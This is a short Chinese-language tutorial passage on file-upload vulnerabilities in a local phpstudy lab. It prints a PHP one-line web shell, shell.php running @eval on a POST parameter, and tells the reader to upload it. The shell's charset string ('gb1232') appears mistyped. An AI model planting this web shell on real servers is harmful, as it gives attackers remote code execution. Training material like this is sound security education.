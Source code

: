 # 文件上传漏洞

## 文件上传漏洞原理

首先要先部署环境，先从网盘下载upload,并移动到网站根目录，并且在phpstudy中创建网站

![image-20240723172726033](文件上传漏洞/image-20240723172726033.png)	

将写好的shell.php后门文件准备好。

```php
<?php
    #前两段是解决中文乱码问题
	header("Content-type:text/html;charset=gb1232");
	echo "<pre>";
	#eval函数可以把字符串作为php代码执行。前面的@是当执行出错不发出错误信息。
	@eval($_POST['wuya']); 
?>
```

选择一句话木马文件并上传提交。

![image-20240723173238032](文件上传漏洞/image-20240723173238032.png)	
